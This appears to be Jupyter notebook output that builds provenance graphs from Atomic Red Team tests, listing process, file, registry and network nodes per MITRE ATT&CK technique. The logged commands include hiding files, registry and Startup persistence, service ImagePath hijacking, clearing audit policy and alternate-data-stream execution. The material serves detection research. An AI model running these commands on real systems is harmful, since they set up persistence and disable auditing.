646363 : attrib.exe__+h_C:\Users\ezk\AppData\Local\Temp\T1564.001.txt&C:\Windows\system32\attrib.exe&attrib.exe&7112
../graph_benign2/T1564.001_66a5fd5f244819181f074dd082a28905.png has been generated!
T1564.001_dce51e632abdfe5392c7c1f942ac9273


<Figure size 432x288 with 0 Axes>



 36%|███▌      | 59/165 [12:13<02:57,  1.68s/it]

Number of relations in the graph: 9
646363 : attrib.exe__+h_C:\Users\ezk\AppData\Local\Temp\T1564.001.txt&C:\Windows\system32\attrib.exe&attrib.exe&7112
55571 : C:\Users\ezk\AppData\Local\Temp\T1564.001.txt
311301 : cmd.exe_/C_attrib.exe_+s_%temp%\T1564.001.txt&C:\Windows\system32\cmd.exe&cmd.exe&4804
362145 : attrib.exe__+s_C:\Users\ezk\AppData\Local\Temp\T1564.001.txt&C:\Windows\system32\attrib.exe&attrib.exe&7128
../graph_benign2/T1564.001_dce51e632abdfe5392c7c1f942ac9273.png has been generated!
T1069.001_5c4dd985-89e3-4590-9b57-71fed66ff4e2


<Figure size 432x288 with 0 Axes>



 36%|███▋      | 60/165 [12:15<02:51,  1.63s/it]

Number of relations in the graph: 9
275082 : powershell.exe_-ExecutionPolicy_Bypass_-C_"gpresult_/R"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&7912
560677 : "C:\Windows\system32\gpresult.exe"_/R&C:\Windows\system32\gpresult.exe&gpresult.exe&9132
719436 : DESKTOP-BA1RQFC.blueteam.com&192.168.48.10:epmap
559320 : DESKTOP-BA1RQFC.blueteam.com&192.168.48.10:49667
../graph_benign2/T1069.001_5c4dd985-89e3-4590-9b57-71fed66ff4e2.png has been generated!
T1547.009_b6e5c895c6709fe289352ee23f062229


<Figure size 432x288 with 0 Axes>



 37%|███▋      | 61/165 [12:16<02:46,  1.60s/it]

Number of relations in the graph: 8
154039 : cmd.exe_/C_echo_[InternetShortcut]_>_%temp%\T1547.009_modified_shortcut.url_&&_echo_URL=C:\windows\system32\calc.exe_>>_%temp%\T1547.009_modified_shortcut.url_&&_%temp%\T1547.009_modified_shortcut.url&C:\Windows\system32\cmd.exe&cmd.exe&7468
442184 : C:\Users\ezk\AppData\Local\Temp\T1547.009_modified_shortcut.url
422292 : C:\Users\ezk\AppData\Local\Temp\T1547.009_modified_shortcut.url:Zone.Identifier
680954 : "C:\windows\system32\calc.exe"_&C:\windows\system32\calc.exe&calc.exe&10756
../graph_benign2/T1547.009_b6e5c895c6709fe289352ee23f062229.png has been generated!
T1087.001_6334877e8e3ba48f7835d4856d90a282


<Figure size 432x288 with 0 Axes>



 38%|███▊      | 62/165 [12:18<02:50,  1.65s/it]

Number of relations in the graph: 8
533094 : "C:\Users\ezk\Anaconda3\envs\ML\python.exe"__"C:\Users\ezk\Anaconda3\envs\ML\Scripts\jupyter-notebook.EXE"_&C:\Users\ezk\Anaconda3\envs\ML\python.exe&python.exe&5264
571717 : C:\Users\*
5305 : C:\Users\ezk\Anaconda3\envs\ML\python.exe_-m_ipykernel_launcher_-f_C:\Users\ezk\AppData\Roaming\jupyter\runtime\kernel-8cfd1ee6-8da3-4207-9509-6789621f73a5.json&C:\Users\ezk\Anaconda3\envs\ML\python.exe&python.exe&6480
129662 : "C:\Program_Files_(x86)\Microsoft\EdgeUpdate\Install\{4DCF770B-53FA-411D-AA3F-46211AA0F39A}\EDGEMITMP_549E4.tmp\setup.exe"_--install-archive="C:\Program_Files_(x86)\Microsoft\EdgeUpdate\Install\{4DCF770B-53FA-411D-AA3F-46211AA0F39A}\EDGEMITMP_549E4.tmp\MSEDGE.PACKED.7Z"_--msedge_--verbose-logging_--do-not-launch-msedge_--system-level_--channel=stable&C:\Program_Files_(x86)\Microsoft\EdgeUpdate\Install\{4DCF770B-53FA-411D-AA3F-46211AA0F39A}\EDGEMITMP_549E4.tmp\setup.exe&setup.exe&9696
531311 : cmd.exe_/C_net_user_&&_dir_c:\Users\

<Figure size 432x288 with 0 Axes>



 38%|███▊      | 63/165 [12:20<02:45,  1.62s/it]

Number of relations in the graph: 7
179773 : cmd.exe_/C_%LOCALAPPDATA:~-3,1%md_/c_echo_Hello,_from_CMD!_>_hello.txt_&_type_hello.txt&C:\Windows\system32\cmd.exe&cmd.exe&3824
340259 : C:\Windows\System32\hello.txt
1083 : cmd__/c_echo_Hello&C:\Windows\system32\cmd.exe&cmd.exe&4072
491765 : cmd__/c_echo_Hello,_from_CMD!__&C:\Windows\system32\cmd.exe&cmd.exe&4072
../graph_benign2/T1059.003_6c318ef0339d74d909ad556681b6493e.png has been generated!
T1057_8adf02e8-6e71-4244-886c-98c402857404


<Figure size 432x288 with 0 Axes>



 39%|███▉      | 64/165 [12:21<02:41,  1.60s/it]

Number of relations in the graph: 7
249632 : powershell.exe_-ExecutionPolicy_Bypass_-C_"tasklist_/m__>>_$env:APPDATA\vmtool.log;cat_$env:APPDATA\vmtool.log"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10232
545864 : C:\Users\ezk\AppData\Roaming\vmtool.log
91571 : "C:\Windows\system32\tasklist.exe"_/m&C:\Windows\system32\tasklist.exe&tasklist.exe&10280
../graph_benign2/T1057_8adf02e8-6e71-4244-886c-98c402857404.png has been generated!
T1037.001_62cfa90fb03a6bc1a6ebcce8a3ea81b7


<Figure size 432x288 with 0 Axes>



 39%|███▉      | 65/165 [12:23<02:39,  1.60s/it]

Number of relations in the graph: 7
230888 : cmd.exe_/C_echo_"echo_Art_"Logon_Script"_atomic_test_was_successful._>>_%USERPROFILE%\desktop\T1037.001-log.txt"_>_%temp%\art.bat_&&_REG.exe_ADD_HKCU\Environment_/v_UserInitMprLogonScript_/t_REG_SZ_/d_"%temp%\art.bat"_/f&C:\Windows\system32\cmd.exe&cmd.exe&7804
32412 : C:\Users\ezk\AppData\Local\Temp\art.bat
542714 : REG.exe__ADD_HKCU\Environment_/v_UserInitMprLogonScript_/t_REG_SZ_/d_"C:\Users\ezk\AppData\Local\Temp\art.bat"_/f&C:\Windows\system32\reg.exe&reg.exe&1580
2566 : HKCU\Environment\UserInitMprLogonScript
../graph_benign2/T1037.001_62cfa90fb03a6bc1a6ebcce8a3ea81b7.png has been generated!
T1491_68235976-2404-42a8-9105-68230cfef562


<Figure size 432x288 with 0 Axes>



 40%|████      | 66/165 [12:24<02:35,  1.57s/it]

Number of relations in the graph: 7
148716 : powershell.exe_-ExecutionPolicy_Bypass_-C_.\Invoke-MemeKatz.ps1&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&5796
101608 : DESKTOP-BA1RQFC.blueteam.com&ec2-18-211-231-38.compute-1.amazonaws.com:https
72404 : C:\Users\ezk\AppData\Local\wallpaper.jpg
../graph_benign2/T1491_68235976-2404-42a8-9105-68230cfef562.png has been generated!
T1547.001_0dbdf1a2a87e718a6ac8a8e3415a7fac


<Figure size 432x288 with 0 Axes>



 41%|████      | 67/165 [12:26<02:32,  1.56s/it]

Number of relations in the graph: 7
776897 : cmd.exe_/C_reg_ADD_"HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command"_/ve_/d_"calc.exe"_/f&C:\Windows\system32\cmd.exe&cmd.exe&8288
730095 : reg__ADD_"HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command"_/ve_/d_"calc.exe"_/f&C:\Windows\system32\reg.exe&reg.exe&10716
153836 : HKCU\Software\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command
55901 : HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command
494271 : HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command\(Default)
../graph_benign2/T1547.001_0dbdf1a2a87e718a6ac8a8e3415a7fac.png has been generated!
T1070.005_1f91076e2be2014cc7b4f1296de02fd6


<Figure size 432x288 with 0 Axes>



 41%|████      | 68/165 [12:28<02:33,  1.59s/it]

Number of relations in the graph: 6
258466 : cmd.exe_/C_reg_add_"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters"_/v_AutoShareServer_/t_REG_DWORD_/d_0_/f_&&_reg_add_"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters"_/v_AutoShareWks_/t_REG_DWORD_/d_0_/f&C:\Windows\system32\cmd.exe&cmd.exe&7588
473485 : reg__add_"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters"_/v_AutoShareServer_/t_REG_DWORD_/d_0_/f_&C:\Windows\system32\reg.exe&reg.exe&11120
230448 : reg__add_"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters"_/v_AutoShareWks_/t_REG_DWORD_/d_0_/f&C:\Windows\system32\reg.exe&reg.exe&6240
7289 : HKLM\System\CurrentControlSet\Services\LanmanServer\Parameters\AutoShareServer
426230 : HKLM\System\CurrentControlSet\Services\LanmanServer\Parameters\AutoShareWks
../graph_benign2/T1070.005_1f91076e2be2014cc7b4f1296de02fd6.png has been generated!
T1120_7b9c7afaefa59aab759b49af0d699ac1


<Figure size 432x288 with 0 Axes>



 42%|████▏     | 69/165 [12:29<02:27,  1.54s/it]

Number of relations in the graph: 6
688174 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Get-WMIObject_Win32_PnPEntity_|_Format-Table_Name,_Description,_Manufacturer_>_$env:TEMP\T1120_collection.txt;_$Space,$Heading,$Break,$Data_=_Get-Content_$env:TEMP\T1120_collection.txt;_@($Heading;_$Break;_$Data_|Sort-Object_-Unique)_|_?_{$_.trim()_-ne_\"\"_}_|Set-Content_$env:TEMP\T1120_collection.txt"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&11228
112170 : C:\Users\ezk\AppData\Local\Temp\T1120_collection.txt
../graph_benign2/T1120_7b9c7afaefa59aab759b49af0d699ac1.png has been generated!
T1123_372e6f46fca18e4f1b43209c20ffafa2


<Figure size 432x288 with 0 Axes>



 42%|████▏     | 70/165 [12:31<02:25,  1.53s/it]

Number of relations in the graph: 6
451902 : cmd.exe_/C_reg_add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\microphone\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStart_/t_REG_BINARY_/d_a273b6f07104d601_/f_&&_reg_add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\microphone\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStop_/t_REG_BINARY_/d_96ef514b7204d601_/f&C:\Windows\system32\cmd.exe&cmd.exe&10016
791899 : reg__add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\microphone\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStart_/t_REG_BINARY_/d_a273b6f07104d601_/f_&C:\Windows\system32\reg.exe&reg.exe&7352
569311 : reg__add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\microphone\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStop_/t_REG_BINARY_/d_96ef514b7204d601_/f&C:\Windows\system32\reg.exe&reg.exe&103

<Figure size 432x288 with 0 Axes>



 43%|████▎     | 71/165 [12:32<02:21,  1.51s/it]

Number of relations in the graph: 6
154323 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Office_test\Special\Perf"_/t_REG_SZ_/d_"C:\Path\AtomicRedTeam.dll"&C:\Windows\system32\cmd.exe&cmd.exe&4592
412124 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Office_test\Special\Perf"_/t_REG_SZ_/d_"C:\Path\AtomicRedTeam.dll"&C:\Windows\system32\reg.exe&reg.exe&10632
663096 : HKCU\Software\Microsoft\Office_test\Special\Perf
434990 : HKCU\SOFTWARE\Microsoft\Office_test\Special\Perf
581302 : HKCU\SOFTWARE\Microsoft\Office_test\Special\Perf\(Default)
../graph_benign2/T1137.002_e2af3c3ab1b0f659c874b8af58c49759.png has been generated!
T1007_9d03c91bdae5a80f17f89c987942b5a8


<Figure size 432x288 with 0 Axes>



 44%|████▎     | 72/165 [12:34<02:23,  1.54s/it]

Number of relations in the graph: 6
573762 : cmd.exe_/C_net.exe_start_>>_C:\Windows\Temp\service-list.txt&C:\Windows\system32\cmd.exe&cmd.exe&9532
675457 : C:\Windows\Temp\service-list.txt
496642 : net.exe__start_&C:\Windows\system32\net.exe&net.exe&9008
643625 : C:\Windows\system32\net1__start_&C:\Windows\system32\net1.exe&net1.exe&10524
../graph_benign2/T1007_9d03c91bdae5a80f17f89c987942b5a8.png has been generated!
T1564.004_28862487a99f5f89bc0d68c87396c7e9


<Figure size 432x288 with 0 Axes>



 44%|████▍     | 73/165 [12:35<02:18,  1.51s/it]

Number of relations in the graph: 6
781688 : cmd.exe_/C_echo_cmd_/c_echo_"Shell_code_execution.">_%temp%\T1564.004_has_ads_cmd.txt:adstest.txt_&&_for_/f_"usebackq_delims=?"_%i_in_(%temp%\T1564.004_has_ads_cmd.txt:adstest.txt)_do_%i&C:\Windows\system32\cmd.exe&cmd.exe&5276
476666 : C:\Users\ezk\AppData\Local\Temp\T1564.004_has_ads_cmd.txt:adstest.txt
158008 : cmd__/c_echo_"Shell_code_execution."_&C:\Windows\system32\cmd.exe&cmd.exe&1256
../graph_benign2/T1564.004_28862487a99f5f89bc0d68c87396c7e9.png has been generated!
T1562.002_6a8d25d65a7d481dc479f89c62af1e6a


<Figure size 432x288 with 0 Axes>



 45%|████▍     | 74/165 [12:37<02:21,  1.56s/it]

Number of relations in the graph: 6
690103 : cmd.exe_/C_auditpol_/clear_/y_&&_auditpol_/remove_/allusers&C:\Windows\system32\cmd.exe&cmd.exe&9268
732174 : auditpol__/clear_/y_&C:\Windows\system32\auditpol.exe&auditpol.exe&6956
42313 : auditpol__/remove_/allusers&C:\Windows\system32\auditpol.exe&auditpol.exe&7988
670723 : HKLM\System\CurrentControlSet\Control\Lsa\CrashOnAuditFail
587589 : HKLM\System\CurrentControlSet\Control\Lsa\FullPrivilegeAuditing
../graph_benign2/T1562.002_6a8d25d65a7d481dc479f89c62af1e6a.png has been generated!
T1547.001_1f15ab22c39a9b6bb2bb0d77276dfcb3


<Figure size 432x288 with 0 Axes>



 45%|████▌     | 75/165 [12:38<02:23,  1.59s/it]

Number of relations in the graph: 6
337338 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$Target_=_\"C:\Windows\System32\calc.exe\";_$ShortcutLocation_=_\"$home\AppData\Roaming\Microsoft\Windows\Start_Menu\Programs\Startup\calc_exe.lnk\";_$WScriptShell_=_New-Object_-ComObject_WScript.Shell;_$Create_=_$WScriptShell.CreateShortcut($ShortcutLocation);_$Create.TargetPath_=_$Target;_$Create.Save()"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3064
128713 : "C:\Windows\system32\calc.exe"_&C:\Windows\system32\calc.exe&calc.exe&9420
355881 : C:\Users\ezk\AppData\Roaming\Microsoft\Windows\Start_Menu\Programs\Startup\calc_exe.lnk
498531 : C:\Users\ezk\AppData\Roaming\Microsoft\Windows\Start_Menu\Programs\Startup\calc_exe.lnk\desktop.ini
../graph_benign2/T1547.001_1f15ab22c39a9b6bb2bb0d77276dfcb3.png has been generated!
T1574.011_72249c1e9ffe7d8f30243d838e0791ca


<Figure size 432x288 with 0 Axes>



 46%|████▌     | 76/165 [12:41<02:37,  1.77s/it]

Number of relations in the graph: 6
752866 : cmd.exe_/C_reg.exe_add_"HKLM\SYSTEM\CurrentControlSet\Services\calcservice"_/f_/v_ImagePath_/d_"%windir%\system32\cmd.exe"&C:\Windows\system32\cmd.exe&cmd.exe&10760
126946 : reg.exe__add_"HKLM\SYSTEM\CurrentControlSet\Services\calcservice"_/f_/v_ImagePath_/d_"C:\Windows\system32\cmd.exe"&C:\Windows\system32\reg.exe&reg.exe&3612
793224 : HKLM\SYSTEM\CurrentControlSet\Services\calcservice
328686 : HKLM\System\CurrentControlSet\Services\calcservice
749883 : HKLM\System\CurrentControlSet\Services\calcservice\ImagePath
../graph_benign2/T1574.011_72249c1e9ffe7d8f30243d838e0791ca.png has been generated!
T1125_da86001b5081fcf773d8e62f22cf2b00


<Figure size 432x288 with 0 Axes>

